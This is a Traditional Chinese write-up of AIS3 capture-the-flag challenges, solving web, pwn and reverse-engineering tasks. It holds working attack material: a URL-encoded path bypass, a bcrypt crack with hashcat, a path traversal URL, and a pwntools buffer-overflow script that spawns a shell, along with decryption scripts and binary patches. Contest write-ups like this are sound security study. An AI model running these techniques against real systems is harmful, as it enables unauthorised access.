





> 和去年比名次沒什麼進步...

## information

Ranking: `142nd / 389`


<hr/>

## Tomorin db 🐧
一個用 GO 寫的 file server ，並把 `/flag` Handle 掛給重新導向到聿日箋秋。
```go
package main

import "net/http"

func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```

試了很多方法最後看到 `GO` 在處理路徑時遇到 `URL encode` 會有問題。最後用 `curl` 打路徑中含 `URL encode` 的 request 拿到 flag。
```bash
curl http://chals1.ais3.org:30000/%2e/flag
```

## Login Screen 1
一個簡單的web ，流程是 帳號密碼登入 > 2FA code > 看到 dashboard。在登入的時候可以 `SQL injection`。在 `docker-compose` 中有把 `users.db`掛載到容器裡所以可以直接從伺服器那邊下載下來。
```yml
services:
  cms:
    build: ./cms
    ports:
      - "36368:80"
    volumes:
      - ./cms/html/2fa.php:/var/www/html/2fa.php:ro
      - ./cms/html/dashboard.php:/var/www/html/dashboard.php:ro
      - ./cms/html/index.php:/var/www/html/index.php:ro
      - ./cms/html/init.php:/var/www/html/init.php:ro
      - ./cms/html/logout.php:/var/www/html/logout.php:ro
      - ./cms/html/users.db:/var/www/html/users.db:ro # db 資料
      - ./cms/html/styles.css:/var/www/html/styles.css:ro
    environment:
      - FLAG1=AIS3{1.This_is_the_first_test_flag}
      - FLAG2=AIS3{2.This_is_the_second_test_flag}

```



不過會因為輸入的 username 不是 admin所以無法看到 flag 。


最後用 `hashcat` 去爆破 bcrypt 的 hash 拿到 password，再填入已知的 2FA code 後就拿到 flag。 
```bash
$ echo '$2y$10$Hf11AOUj8lw13DogTnS3aOvjD1hPnfsOx8qMKZzG8dGCWujtTRvBC' > hash.txt
$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-skylake-avx512-11th Gen Intel(R) Core(TM) i5-11400 @ 2.60GHz, 6899/13863 MB (2048 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Wed Jun  4 18:16:14 2025
Stopped: Wed Jun  4 18:16:15 2025
$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
$2y$10$Hf11AOUj8lw13DogTnS3aOvjD1hPnfsOx8qMKZzG8dGCWujtTRvBC:admin
```

## Welcome to the World of Ave Mujica🌙

```bash
bof ret2function 的題目
$ checksec service/chal
'/home/kali/CTF/pwn/Welcome_to_the_World_of_Ave_Mujica/service/chal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

目標函數
```c
void Welcome_to_the_world_of_Ave_Mujica(void)
{
  puts(&DAT_00402960);
  puts(&DAT_00402990);
  puts(&DAT_004029b4);
  puts(&DAT_004029c3);
  puts(&DAT_004029d2);
  puts(&DAT_004029e1);
  puts(&DAT_004029fc);
  puts(&DAT_00402a15);
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

在輸入 `告訴我你的名字的長度: ` 時他是透過 `byte` 儲存。不過在 read 的 len 參數會轉成 `ulong`。
```c
byte local_11;
...
local_11 = read_int8();
printf(&DAT_00402b41);
read(0,local_a8,(ulong)local_11);
```

```c
int read_int8(void)
{
  char local_10 [4];
  int local_c;
  
  read(0,local_10,4);
  local_c = atoi(local_10);
  if (127 < local_c) { // 這裡有做上界檢查
    puts(&DAT_00402a38);
    exit_func(1);
  }
  return local_c;
}
```

在輸入 -1 後因為 byte 在儲存負數是透過 1補數儲存所以 -1 在記憶體中的實際值會變成 0xff。而 ulong 因為是 unsigned ，所以所以 len 參數會變成 255。

```bash
pwndbg> x/xb $rbp - 0x9
0x7ffea70a1377: 0xff
```

讀取我們輸入的記憶體位置離 rbp 有 0xa0。
```bash
[0x00401170]> s main
[0x00401347]> pdf
            ; DATA XREF from entry0 @ 0x401188
┌ 369: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_a0h @ rbp-0xa0
...
│           0x0040149d      488d8560ffff.  lea rax, [var_a0h]
│           0x004014a4      4889c6         mov rsi, rax
│           0x004014a7      bf00000000     mov edi, 0
│           0x004014ac      e84ffcffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
...
```

加入 0xa0 個 padding 後，再加上8個padding 蓋掉 `old rbp`，最後填上 target function的位置。
```python
from pwn import *

payload = b"A" * 0xa0 + b"B" * 0x8 + p64(0x00401256)

p = process("service/chal")
# p = remote("chals1.ais3.org", 60557)

p.sendlineafter(b"?", b"yes")

p.sendlineafter(b": ", b"-1")

p.sendlineafter(b": ", payload)

p.interactive()
```

## Ramen CTF
題目


把發票上的賣方號碼去[財務部統一編號查詢](https://www.etax.nat.gov.tw/etwmain/etw113w1/ban/query)，找到店家名稱及地址。


掃描發票上的 QR-code 拿到品名
```
MF1687991111404137095000001f4000001f40000000034785923VG9sG89nFznfPnKYFRlsoA==:**:2:2:1:蝦拉
```

最後對照[菜單](https://maps.app.goo.gl/RxMUQidD2EMJ1yib7)知道完整品名。

## AIS3 Tiny Server - Web/misc

一個 file server ，有 path traversal 漏洞。在進入`http://chals1.ais3.org:20167/%2f%2f/`後，到根目錄看到 flag file。


## Welcome


複製後會是 fake flag，我比較笨我直接看著打。😥

##　AIS3 Tiny Server - Reverse
拿裡面的 binary 去丟 Ghidra 看到一個函數在做解密的運算。
```c
bool flag_checker_core(int param_1)
{
  byte bVar1;
  int iVar2;
  uint uVar3;
  uint uVar4;
  byte bVar5;
  undefined4 local_49;
  undefined4 local_45;
  undefined2 local_41;
  undefined4 local_3e;
  undefined4 local_3a;
  undefined4 local_36;
  undefined4 local_32;
  undefined4 local_2e;
  undefined4 local_2a;
  undefined4 local_26;
  undefined4 local_22;
  undefined4 local_1e;
  undefined4 local_1a;
  undefined4 local_16;
  undefined2 local_12;
  
  bVar5 = 0x33;
  local_12 = 0x14;
  bVar1 = 0x72;
  local_3e = 0x58382033;
  local_3a = 0x475c2812;
  local_36 = 0xf2d5229;
  local_32 = 0xe0a5a;
  local_2e = 0x5013580f;
  local_2a = 0x34195a19;
  local_26 = 0x43333158;
  local_22 = 0x5a044113;
  local_1e = 0x2c583419;
  local_1a = 0x3465333;
  local_16 = 0x4a4a481e;
  local_49 = 0x6b6b6972;
  local_45 = 0x306c5f69;
  local_41 = 0x3376;
  uVar3 = 0;
  while( true ) {
    *(byte *)((int)&local_3e + uVar3) = bVar1 ^ bVar5;
    uVar4 = uVar3 + 1;
    if (uVar4 == 0x2d) break;
    bVar5 = *(byte *)((int)&local_3e + uVar3 + 1);
    bVar1 = *(byte *)((int)&local_49 + uVar4 % 10);
    uVar3 = uVar4;
  }
  iVar2 = 0;
  while ((*(char *)(param_1 + iVar2) != '\0' &&
         (*(char *)(param_1 + iVar2) == *(char *)((int)&local_3e + iVar2)))) {
    iVar2 = iVar2 + 1;
    if (iVar2 == 0x2d) {
      return *(char *)(param_1 + 0x2d) == '\0';
    }
  }
  return false;
}
```

寫 python 腳本來執行這段 code。
```python
key_bytes = bytearray([
    0x72, 0x69, 0x6b, 0x6b, 0x69, 0x5f, 0x6c, 0x30, 0x76, 0x33
])  # "rikki_l0v3"

data = bytearray([
    0x33, 0x20, 0x38, 0x58,
    0x12, 0x28, 0x5c, 0x47,
    0x29, 0x52, 0x2d, 0x0f,
    0x5a, 0x0a, 0x0e, 0x00,
    0x0f, 0x58, 0x13, 0x50,
    0x19, 0x5a, 0x19, 0x34,
    0x58, 0x31, 0x33, 0x43,
    0x13, 0x41, 0x04, 0x5a,
    0x19, 0x34, 0x58, 0x2c,
    0x33, 0x53, 0x46, 0x03,
    0x1e, 0x48, 0x4a, 0x4a,
])

bVar1 = 0x72

for i in range(len(data)):
    data[i] ^= bVar1
    bVar1 = key_bytes[(i + 1) % 10]

print(data.decode())
```

> 最後不知道為什麼會少一個下大括號

## web flag checker
看原始碼發現和 web asm 有關，去下載 `index.wasm`，之後用 [wasm-decompile](https://github.com/WebAssembly/wabt?tab=readme-ov-file) 反編譯他，找到 `flagchecker` 函式。
```
export function flagchecker(a:int):int { // func9
  var b:int = g_a;
  var c:int = 96;
  var d:int = b - c;
  g_a = d;
  d[22]:int = a;
  var e:int = -39934163;
  d[21]:int = e;
  var f:int = 64;
  var g:long_ptr = d + f;
  var h:long = 0L;
  g[0] = h;
  var i:int = 56;
  var j:long_ptr = d + i;
  j[0] = h;
  var k:int = 48;
  var l:long_ptr = d + k;
  l[0] = h;
  d[5]:long = h;
  d[4]:long = h;
  var m:long = 7577352992956835434L;
  d[4]:long = m;
  var n:long = 7148661717033493303L;
  d[5]:long = n;
  var o:long = -7081446828746089091L;
  d[6]:long = o;
  var p:long = -7479441386887439825L;
  d[7]:long = p;
  var q:long = 8046961146294847270L;
  d[8]:long = q;
  var r:int = d[22]:int;
  var s:int = 0;
  var t:int = r != s;
  var u:int = 1;
  var v:int = t & u;
  if (eqz(v)) goto B_c;
  var w:int = d[22]:int;
  var x:int = f_n(w);
  var y:int = 40;
  var z:int = x != y;
  var aa:int = 1;
  var ba:int = z & aa;
  if (eqz(ba)) goto B_b;
  label B_c:
  var ca:int = 0;
  d[23]:int = ca;
  goto B_a;
  label B_b:
  var da:int = d[22]:int;
  d[7]:int = da;
  var ea:int = 0;
  d[6]:int = ea;
  loop L_e {
    var fa:int = d[6]:int;
    var ga:int = 5;
    var ha:int = fa < ga;
    var ia:int = 1;
    var ja:int = ha & ia;
    if (eqz(ja)) goto B_d;
    var ka:int = d[7]:int;
    var la:int = d[6]:int;
    var ma:int = 3;
    var na:int = la << ma;
    var oa:long_ptr = ka + na;
    var pa:long = oa[0];
    d[2]:long = pa;
    var qa:int = d[6]:int;
    var ra:int = 6;
    var sa:int = qa * ra;
    var ta:int = -39934163;
    var ua:int = ta >> sa;
    var va:int = 63;
    var wa:int = ua & va;
    d[3]:int = wa;
    var xa:long = d[2]:long;
    var ya:int = d[3]:int;
    var za:long = f_i(xa, ya);
    var ab:int = d[6]:int;
    var bb:int = 32;
    var cb:int = d + bb;
    var db:int = cb;
    var eb:int = 3;
    var fb:int = ab << eb;
    var gb:long_ptr = db + fb;
    var hb:long = gb[0];
    var ib:int = za != hb;
    var jb:int = 1;
    var kb:int = ib & jb;
    if (eqz(kb)) goto B_f;
    var lb:int = 0;
    d[23]:int = lb;
    goto B_a;
    label B_f:
    var mb:int = d[6]:int;
    var nb:int = 1;
    var ob:int = mb + nb;
    d[6]:int = ob;
    continue L_e;
  }
  label B_d:
  var pb:int = 1;
  d[23]:int = pb;
  label B_a:
  var qb:int = d[23]:int;
  var rb:int = 96;
  var sb:int = d + rb;
  g_a = sb;
  return qb;
}
```

用 python 還原邏輯得到 flag。
```python
const = -39934163 & 0xffffffff  # 32-bit (two's)
indices = []
for i in range(5):
    val = (const >> (i*6)) & 0x3F
    indices.append(val)

vals=[7577352992956835434,7148661717033493303,-7081446828746089091 & ((1<<64)-1), -7479441386887439825 & ((1<<64)-1), 8046961146294847270]

def rotr(x, r):
    return ((x >> r) | (x << (64-r))) & ((1<<64)-1)

for i,v in enumerate(vals):
    r=[45,28,42,39,61][i]
    out=rotr(v,r)

def hex_to_ascii(hex_val):
    s=hex_val.to_bytes(8,'big')
    try:
        return s.decode('ascii')
    except:
        return s.hex()
for i,v in enumerate(vals):
    rotated=rotr(v,[45,28,42,39,61][i])
    print(hex_to_ascii(rotated)[::-1], end='')
```

## A_simple_snake_game
一個用 [SDL](https://www.libsdl.org/) 寫的 PE 小遊戲。目標函數。
```c
void SnakeGame::Screen::drawText(int param_1,int param_2)
{
  byte bVar1;
  byte bVar2;
  uint uVar3;
  byte *pbVar4;
  int *piVar5;
  char *pcVar6;
  undefined4 uVar7;
  SjLj_Function_Context local_f4;
  undefined *local_d4;
  undefined *local_d0;
  undefined *local_cc;
  int local_c0;
  undefined4 local_af;
  undefined4 local_ab;
  undefined4 local_a7;
  undefined4 local_a3;
  undefined4 local_9f;
  undefined4 local_9b;
  undefined4 local_97;
  undefined4 local_93;
  undefined4 local_8f;
  undefined4 local_8b;
  undefined2 local_87;
  undefined local_85;
  undefined4 local_84;
  undefined4 local_80;
  undefined4 local_7c;
  undefined4 local_78;
  undefined4 local_74;
  undefined4 local_70 [6];
  undefined4 local_58;
  undefined4 local_54;
  undefined4 local_50;
  undefined4 local_4c;
  undefined4 local_48;
  undefined4 local_44 [7];
  int local_28;
  int local_24;
  uint local_20;
  
  local_d4 = &stack0xfffffffc;
  local_cc = &stack0xfffffef4;
  local_f4.personality = (_Unwind_Personality_Fn)&___gxx_personality_sj0;
  local_f4.lsda = &DAT_004dff02;
  local_d0 = &LAB_00402dc5;
  _Unwind_SjLj_Register(&local_f4);
  if ((param_1 < 0xaebc1c) || (param_2 < 0x4d63)) {
    local_f4.call_site = -1;
    createText[abi:cxx11]((char)local_44,(char)local_c0,param_1,param_2);
    local_48 = 0xffffff;
    std::__cxx11::basic_string<>::c_str(local_44);
    local_f4.call_site = 3;
    uVar7 = _TTF_RenderText_Solid();
    *(undefined4 *)(local_c0 + 0xc) = uVar7;
    uVar7 = _SDL_CreateTextureFromSurface();
    *(undefined4 *)(local_c0 + 0x10) = uVar7;
    local_58 = 400;
    local_54 = 0x235;
    local_50 = 0x140;
    local_4c = 0x1e;
    _SDL_RenderCopy();
    std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_44);
  }
  else {
    local_af = 0xce695081;
    local_ab = 0xc1942bb5;
    local_a7 = 0xc38b136d;
    local_a3 = 0xdb0830c5;
    local_9f = 0x774cb209;
    local_9b = 0xed101c59;
    local_97 = 0x48eb2058;
    local_93 = 0x6529fecf;
    local_8f = 0x1d9d67f7;
    local_8b = 0xde102ea4;
    local_87 = 0x66fd;
    local_85 = 0x28;
    std::allocator<char>::allocator();
    local_f4.call_site = 1;
    std::__cxx11::basic_string<>::basic_string
              ((basic_string<> *)local_70,(undefined *)&local_af,0x2b);
    std::allocator<char>::~allocator();
    local_20 = 0;
    while( true ) {
      uVar3 = std::__cxx11::basic_string<>::length((int)local_70);
      if (uVar3 <= local_20) break;
      local_f4.call_site = 2;
      pbVar4 = (byte *)std::__cxx11::basic_string<>::operator[]((basic_string<> *)local_70,local_20)
      ;
      bVar1 = *pbVar4;
      bVar2 = (&hex_array1)[local_20];
      pbVar4 = (byte *)std::__cxx11::basic_string<>::operator[]((basic_string<> *)local_70,local_20)
      ;
      *pbVar4 = bVar1 ^ bVar2;
      local_20 = local_20 + 1;
    }
    local_74 = 0xffffff;
    std::__cxx11::basic_string<>::c_str(local_70);
    local_f4.call_site = 2;
    local_24 = _TTF_RenderText_Solid();
    if (local_24 == 0) {
      piVar5 = std::operator<<((int *)&std::cerr,"TTF_RenderText_Solid: ");
      pcVar6 = (char *)_SDL_GetError();
      piVar5 = std::operator<<(piVar5,pcVar6);
      std::basic_ostream<>::operator<<((basic_ostream<> *)piVar5,std::endl<>);
    }
    else {
      local_f4.call_site = 2;
      local_28 = _SDL_CreateTextureFromSurface();
      if (local_28 == 0) {
        piVar5 = std::operator<<((int *)&std::cerr,"SDL_CreateTextureFromSurface: ");
        pcVar6 = (char *)_SDL_GetError();
        piVar5 = std::operator<<(piVar5,pcVar6);
        std::basic_ostream<>::operator<<((basic_ostream<> *)piVar5,std::endl<>);
        _SDL_FreeSurface();
      }
      else {
        local_84 = 200;
        local_80 = 0x235;
        local_7c = 0x24e;
        local_78 = 0x1e;
        local_f4.call_site = 2;
        _SDL_RenderCopy();
        _SDL_FreeSurface();
        _SDL_DestroyTexture();
      }
    }
    std::__cxx11::basic_string<>::~basic_string((basic_string<> *)local_70);
  }
  _Unwind_SjLj_Unregister(&local_f4);
  return;
}
```

裡面有條件是 `if ((param_1 < 0xaebc1c) || (param_2 < 0x4d63)) ` 不會印出任何東西，如果不成立才會印出 flag。其中 param_1 是分數，param_2 是生命。我把起始分數 patch 成 0xaebc1c。
```asm
00401c89 c7 45 e4        MOV        dword ptr [EBP + local_20],0xaebc1d
            1d bc ae 00
```

之後再把 param_2 cmp 的值改成 0x1。
```asm
00402a0e 81 7d 0c        CMP        dword ptr [EBP + param_2],0x0
            00 00 00 00
```

之後打開遊戲即可獲得 flag。